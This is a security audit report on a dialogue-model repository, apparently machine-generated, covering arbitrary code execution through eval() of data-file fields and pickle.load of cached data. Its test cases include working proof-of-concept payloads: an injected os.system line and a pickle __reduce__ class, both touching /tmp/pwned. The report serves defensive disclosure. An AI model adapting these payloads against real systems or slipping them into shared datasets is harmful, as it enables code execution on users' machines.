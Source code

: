 ## Combined Vulnerability List

The following vulnerabilities have been identified in the provided lists.

### 1. Unsafe Deserialization via `eval()` in Data Loading

- **Description:**
    1. The `load_data` function in `/code/src/utils.py` uses the `eval()` function to parse input text and act sequences from data files.
    2. Specifically, the lines `input_text = eval(items[0])` and `act_seq = eval(items[1])` in the `load_data` function interpret strings from the input data files as Python code and execute them.
    3. This allows for arbitrary code execution if a malicious user provides crafted data files. An attacker could inject malicious Python code into the data files (e.g., `train_<data>.txt`, `valid_<data>.txt`, `test_<data>.txt`).
    4. When the `load_data` function processes these files during training or testing, the `eval()` function will execute the attacker's injected code.

- **Impact:**
    Arbitrary code execution on the machine running the training or testing scripts. Successful exploitation can lead to complete system compromise, including data theft, malware installation, and denial of service.

- **Vulnerability Rank:** Critical

- **Currently Implemented Mitigations:**
    None. The code directly uses `eval()` without any input sanitization or validation.

- **Missing Mitigations:**
    - Replace `eval()` with a safe and appropriate deserialization method. If the data is intended to be in JSON format, use `json.loads()`. If it's meant to be Python literals (like lists, dictionaries, strings, numbers, booleans), use `ast.literal_eval()`. For plain text dialogue turns, directly read the text without using `eval()`.
    - Implement robust input validation and sanitization to ensure that the data files conform to the expected format and do not contain any executable code.

- **Preconditions:**
    - The user must train or test the model using a dataset that has been maliciously modified by an attacker.
    - The attacker needs to have a way to influence the data files that are read by the `load_data` function. This could be achieved by compromising the data source, or by convincing a user to use a malicious dataset.

- **Source Code Analysis:**
    1. **File:** `/code/src/utils.py`
    2. **Function:** `load_data(args, tokenizer)`
    3. **Vulnerable Code Block:**
    ```python
    with open(os.path.join(dirname, f'{set_name}_{args.data}.txt'), 'r', encoding='utf-8') as infile:
        for line in infile:
            items = line.strip('\n').split('\t')
            input_text = eval(items[0]) # Vulnerability: Unsafe use of eval()
            act_seq = eval(items[1])    # Vulnerability: Unsafe use of eval()
            sat = int(items[2])
            # ... rest of the code
    ```
    4. **Explanation:** The code reads data files line by line. Each line is split into items based on tab delimiters. The first and second items (`items[0]` and `items[1]`) are then passed to the `eval()` function. `eval()` in Python executes a string as a Python expression. If the content of `items[0]` or `items[1]` is maliciously crafted, it can contain arbitrary Python commands that will be executed with the privileges of the user running the script.

- **Security Test Case:**
    1. **Prepare Malicious Data File:** Create a new file named `test_sgd_malicious.txt` in the directory `dataset/sgd/`. Add the following line to this file:
        ```
        ["__import__('os').system('touch /tmp/pwned')"]	[""]	0
        ```
        This line is crafted so that when `eval(items[0])` is executed, it will run the Python command `os.system('touch /tmp/pwned')`, which creates an empty file named `pwned` in the `/tmp/` directory.
    2. **Modify `main.py` to use malicious data file:** Temporarily modify the `load_data` function in `/code/src/utils.py` to load the malicious data file. Change the line:
        ```python
        with open(os.path.join(dirname, f'{set_name}_{args.data}.txt'), 'r', encoding='utf-8') as infile:
        ```
        to:
        ```python
        with open(os.path.join(dirname, f'{set_name}_sgd_malicious.txt'), 'r', encoding='utf-8') as infile:
        ```
        This change ensures that the `load_data` function will read from `test_sgd_malicious.txt` instead of the original data file when processing the 'test' set.
    3. **Run the Test Script:** Execute the test script using the command: `./test.sh`. This will run the evaluation process, which includes loading the data using the modified `load_data` function and the malicious data file.
    4. **Verify Vulnerability:** After running the test script, check if the file `/tmp/pwned` has been created. You can use the command `ls /tmp/pwned` in your terminal. If the file `pwned` exists in the `/tmp/` directory, it confirms that the malicious code injected into the data file was successfully executed by the `eval()` function, demonstrating arbitrary code execution.

### 2. Deserialization of Untrusted Data via Pickle

- **Description:**
    1. An attacker modifies the preprocessed data file (e.g., `mwoz_64.pkl`) located in the `dataset/{args.data}/tokenized/` directory. This file is created by `utils.py` and contains pickled Python objects.
    2. The user downloads and runs `train.sh` or `test.sh`.
    3. `main.py` is executed, which in turn calls `utils.load_data(args, tokenizer)`.
    4. `utils.load_data` checks for the existence of the pickled data file. If it exists and `args.rewrite_data` is not set, it loads the data using `pickle.read_pkl`, which calls `pickle.load`.
    5. If the attacker has injected malicious code into the pickled data, `pickle.load` will execute this code during deserialization.

- **Impact:** Arbitrary code execution. The attacker can gain full control over the user's machine.

- **Vulnerability Rank:** Critical

- **Currently Implemented Mitigations:** None. The code directly uses `pickle.load` without any safety measures.

- **Missing Mitigations:**
    - Avoid using pickle for loading data from potentially untrusted sources.
    - Use safer serialization formats like JSON or CSV if possible, or formats that are designed to be safe for deserialization.
    - If pickle is necessary, implement integrity checks (e.g., digital signatures) to ensure the data has not been tampered with.
    - Provide clear warnings to users about the security risks of running code from untrusted sources and advise them to only use original, unmodified scripts and data.

- **Preconditions:**
    - The attacker needs to be able to replace the preprocessed data files in the `dataset/{args.data}/tokenized/` directory before the user runs the training or testing scripts. This is feasible in a social engineering attack scenario where the attacker distributes a modified version of the repository.
    - The user must execute `train.sh` or `test.sh` (or directly `main.py`) without the `--rewrite_data` flag, so that the existing pickle file is loaded.

- **Source Code Analysis:**
    1. In `/code/src/utils.py`, the function `read_pkl(filename)` is defined:
       ```python
       def read_pkl(filename):
           with open(filename, 'rb') as f:
               return pickle.load(f)
       ```
       This function uses `pickle.load` to deserialize data from a file. `pickle.load` is known to be vulnerable to arbitrary code execution if the data source is untrusted.
    2. This function is called by `load_data(args, tokenizer)` in `/code/src/utils.py`:
       ```python
       if os.path.exists(f'{dirname}/tokenized/{args.data}_{args.max_seq_len}.pkl') and not args.rewrite_data:
           return read_pkl(f'{dirname}/tokenized/{args.data}_{args.max_seq_len}.pkl')
       ```
       The `load_data` function checks if a pre-tokenized data file exists. If it does and the `rewrite_data` flag is not set, it loads the data from the pickle file using `read_pkl`.
    3. `load_data` is called in `/code/src/main.py` in both training and evaluation modes.
    4. `train.sh` and `test.sh` scripts execute `main.py` without `--rewrite_data`, making the code vulnerable by default if malicious pickle files are present.

- **Security Test Case:**
    1. Prepare malicious pickle file:
       - Create a malicious Python object that executes code when unpickled. For example, create a file named `malicious_pickle_gen.py` with the following content:
         ```python
         import pickle
         import os

         class Malicious(object):
             def __reduce__(self):
                 return (os.system, ('touch /tmp/pwned',))

         malicious_data = {'train': {'input_ids': [], 'input_text': [], 'act_seq': [], 'sat': [], 'schema_ids': [], 'schema_text': [Malicious()]}, 'valid': {'input_ids': [], 'input_text': [], 'act_seq': [], 'sat': [], 'schema_ids': [], 'schema_text': []}, 'test': {'input_ids': [], 'input_text': [], 'act_seq': [], 'sat': [], 'schema_ids': [], 'schema_text': []}, 'act_list': {}}

         with open('/tmp/malicious_mwoz_64.pkl', 'wb') as f:
             pickle.dump(malicious_data, f)
         ```
       - Run `python malicious_pickle_gen.py` to generate the malicious pickle file `/tmp/malicious_mwoz_64.pkl`.
    2. Replace legitimate data file:
       - Assume the user is using `mwoz` dataset and `max_seq_len=64`.
       - Replace the file `/code/dataset/mwoz/tokenized/mwoz_64.pkl` with `/tmp/malicious_mwoz_64.pkl`. Use the command: `cp /tmp/malicious_mwoz_64.pkl /code/dataset/mwoz/tokenized/mwoz_64.pkl`
    3. Run training script:
       - Navigate to the `/code` directory: `cd /code`
       - Execute the training script: `./train.sh`
    4. Check for execution:
       - After running the script, check if the file `/tmp/pwned` exists. Use the command: `ls /tmp/pwned`. If this command shows the file `/tmp/pwned`, it confirms that the malicious code from the pickle file was executed, demonstrating the vulnerability.